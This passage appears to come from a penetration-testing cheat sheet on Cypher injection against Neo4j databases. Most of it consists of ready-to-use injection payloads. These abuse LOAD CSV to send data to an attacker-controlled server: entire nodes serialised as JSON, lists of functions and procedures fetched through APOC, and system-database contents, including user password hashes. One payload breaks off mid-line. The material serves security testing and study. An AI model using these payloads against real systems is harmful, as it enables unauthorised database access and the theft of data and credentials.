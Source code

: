 If APOC is available, there's a better way to do it using `apoc.convert.toJson`

```sql
' OR 1=1 WITH 0 as _0 MATCH (n) LOAD CSV FROM 'http://10.0.2.4:8000/?' + apoc.convert.toJson(n) AS l RETURN 0 as _0 // 
```

### Get functions and procedures

Using the built-in procedures **`dbms.functions()`** and **`dbms.procedures()`** it's possible to list all functions and procedures.

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as _l00 CALL dbms.functions() yield name LOAD CSV FROM 
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```
{% endcode %}

These procedures **were removed in Neo4j 5.** Instead, we can use **`SHOW PROCEDURES`** and **`SHOW FUNCTIONS`.** SHOW queries cannot be injected.

If APOC core is installed, we can use any of the procedures or functions that execute queries to list functions and procedures.

```sql
' OR 1=1 WITH apoc.cypher.runFirstColumnMany("SHOW FUNCTIONS YIELD name RETURN name",{}) as names UNWIND names AS name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

```sql
' OR 1=1 CALL apoc.cypher.run("SHOW PROCEDURES yield name RETURN name",{}) yield value 
LOAD CSV FROM 'https://attacker.com/' + value['name'] as _l RETURN 1 // 
```

### Get system database

The system database is a special Neo4j database that is not normally queryable. It contains interesting data stored as nodes:

* Databases
* Roles
* Users (including the hash of the password!)

Using APOC, it's possible to retrieve the nodes, including the hashes. Only admins can do this, but in the **free edition of Neo4j, there's only an admin user and no other users**, so it's not uncommon to find yourself running as an admin.

Use the procedure **`apoc.systemdb.graph()`** to retrieve the data.

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as a  call apoc.systemdb.graph() yield nodes LOAD CSV FROM 'http://10.0.2.4:8000/?nodes=' + apoc.convert.toJson(nodes) as l RETURN 1 //  
```
{% endcode %}
